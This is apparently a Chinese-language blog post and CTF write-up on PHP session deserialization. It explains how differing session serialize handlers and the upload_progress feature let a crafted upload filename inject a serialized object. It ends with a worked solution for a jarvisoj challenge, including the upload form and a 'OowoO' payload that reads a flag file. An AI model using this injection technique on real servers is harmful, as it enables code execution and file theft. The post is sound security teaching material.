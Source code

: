 ```yaml
---
title: session反序列化
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pp1ove
authorDesc: 一个好奇的人
categories: 技术
comments: false
date: 2021-01-16 13:08:54
tags: 反序列化
keywords: session
description:
photos: \img\article\3.png
---
```


# Session反序列化

## 先来了解一下关于session的一些基础知识

#### **什么是session?**

在计算机中，尤其是在网络应用中，称为“会话控制”。Session 对象存储特定用户会话所需的属性及配置信息。这样，当用户在应用程序的 Web 页之间跳转时，存储在 Session 对象中的变量将不会丢失，而是在整个用户会话中一直存在下去。当用户请求来自应用程序的 Web 页时，如果该用户还没有会话，则 Web 服务器将自动创建一个 Session 对象。当会话过期或被放弃后，服务器将终止该会话。

#### **session是如何起作用的**

当第一次访问网站时，Seesion_start()函数就会创建一个唯一的Session ID，并自动通过HTTP的响应头，将这个Session ID保存到客户端Cookie中。同时，也在服务器端创建一个以Session ID命名的文件，用于保存这个用户的会话信息。当同一个用户再次访问这个网站时，也会自动通过HTTP的请求头将Cookie中保存的Seesion ID再携带过来，这时Session_start()函数就不会再去分配一个新的Session ID，而是在服务器的硬盘中去寻找和这个Session ID同名的Session文件，将这之前为这个用户保存的会话信息读出，在当前脚本中应用，达到跟踪这个用户的目的。

#### session_start()这个函数

当会话自动开始或者通过 session_start() 手动开始的时候， PHP 内部会依据客户端传来的PHPSESSID来获取现有的对应的会话数据（即session文件）， PHP 会自动反序列化session文件的内容，并将之填充到 $_SESSION 超级全局变量中。如果不存在对应的会话数据，则创建名为sess_PHPSESSID(客户端传来的)的文件。如果客户端未发送PHPSESSID，则创建一个由32个字母组成的PHPSESSID，并返回set-cookie。

## **php.ini中一些Session配置**

##### **session 的存储机制**

php中的session中的内容并不是放在内存中的，而是以文件的方式来存储的

| Directive                       | 含义                                                         |
| ------------------------------- | ------------------------------------------------------------ |
| session.save_handler            | session保存形式。默认为files                                 |
| session.save_path               | session保存路径。                                            |
| session.serialize_handler       | session序列化存储所用处理器。默认为php。                     |
| session.upload_progress.cleanup | 一旦读取了所有POST数据，立即清除进度信息。默认开启 //若漏洞存在,此项应该为off |
| session.upload_progress.enabled | 将上传文件的进度信息存在session中。默认开启。                |

#### session储存处理器：

- php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
- php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值

这里就不举例了,网上有很多例子

#### 利用条件

- session.serialize_handler                        处理器不相同
- session.upload_progress.cleanup         off
- session.upload_progress.enabled         on

关于session.upload_progress.enabled，这里存在一个php的bug, https://bugs.php.net/bug.php?id=71101

![image-20210116221920871](session反序列化/image-20210116221920871.png)

需要先上传文件，同时`POST`一个与`session.upload_process.name`的同名变量。后端会自动将`POST`的这个**同名变量作为键**进行**序列化**然后存储到`session`文件中。下次请求就会**反序列化session文件**，从中取出这个键。

**具体作用可以去看官方文档,官方文档写得挺详细的,这里就不详细的讲了https://www.php.net/manual/zh/session.upload-progress.php**

这里需要在本地写一段post表单来上传至服务器    //有了这个漏洞之后我们就可以控制session的值

```
<form action="URL" method="POST" enctype="multipart/form-data">    
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />    
<input type="file" name="file1" />   
<input type="submit" /></form>
```

然后,在session里面就会产生这样的数据:

![image-20210116215704095](session反序列化/image-20210116215704095.png)



这里的`foo.avi`则是上传的文件名字,可以被我们所控制,设置为payload,然后就需要利用所说的`session.serialize_handler`  处理器的差异问题,若我们将这里的`foo.avi`改成一个反序列化字符串,再在前面加上|,这里可以类似于双引号逃逸

这里为本地测试的结果:

![image-20210116215603445](session反序列化/image-20210116215603445.png)

这里假设我们的payload为序列化字符串， 

原本我们的payload是被双引号给包裹起来的,导致我们的payload无法进行序列化,但是当我们的payload前面加了|，字符串xxx“|payload”,第一个双引号被当作了键值,而|后面的字符串也会进行反序列化,导致我们的payload成功执行,可以根据下面的图片来理解

**若session文件以php_serialize+| 存储,php方式读取**

![](session反序列化/image-20210116191757510.png)

**若session以php存储和读取：   //这里若把s:71前面的|移动到O:5前面也可达到同样的效果(这样说可能方便一下理解)**

![image-20210116181305862](session反序列化/image-20210116181305862.png)



接下来就开始实战吧

# CTF例题：phpinfo()

题目地址:     http://web.jarvisoj.com:32784/

![image-20210116195353586](session反序列化/image-20210116195353586.png)

首先看下phpinfo;

![image-20210116195642379](session反序列化/image-20210116195642379.png)

这里有很多配置,其中最有用的是这几个画红线的配置

`session.auto.start`是在访问时生成存储session文件的,和session_start()作用相同,因为这题有session_start()，所以说这题为off也同样产生了漏洞，当然session.use_strict_mode默认值为0时也可自己设置session ID

`session.serialize_handler`后面的session处理器出现了差异

`session.upload_progress.cleanup`若为on,则会自动清除session文件,所以应为Off（若为On时,可以采用条件竞争)

`session.upload_progress.enabled`  php的bug

### 修改session文件

这里编写表单:

```
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
<input type="file" name="file1" />
<input type="submit" /></form>
```

将其插入到html代码中

![image-20210116211820139](session反序列化/image-20210116211820139.png)

![image-20210116211834114](session反序列化/image-20210116211834114.png)

随便选择文件使用burp抓包

![image-20210116211929150](session反序列化/image-20210116211929150.png)

修改filename的值为payload   //注意此处的双引号要转义,因为我们要将其存储到文件中,这里可以看见payload已经执行成功

```
读取文件内容：

通过file_get_contents读取文件内容
设置$mdzz=‘O:5:"OowoO":1:{s:4:"mdzz";s:87:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"))";}
序列话结果
O:5:"OowoO":1:{s:4:"mdzz";s:88:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));";}
文件名设置为
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}。
```

![image-20210116213205801](session反序列化/image-20210116213205801.png)



# 相关文章:

##### https://news.ssssafe.com/archives/1493

